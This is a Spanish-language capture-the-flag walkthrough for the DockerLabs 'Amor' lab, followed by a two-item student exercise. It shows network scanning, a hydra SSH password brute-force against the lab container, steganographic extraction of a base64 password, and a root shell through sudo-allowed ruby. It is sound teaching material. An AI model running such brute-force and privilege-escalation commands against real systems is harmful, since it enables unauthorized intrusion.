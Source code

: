 ## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

## Fácil

Dockerlabs.es

## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

└─# ./auto_deploy.sh amor.tar 

Imagén descarga.
![](hydra.jpg)


## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

gobuster.png

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)



## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
IMaGEN SCP


La imagen descargada es la siguiente:

FOTO

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```

# Taller Individual.

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando.

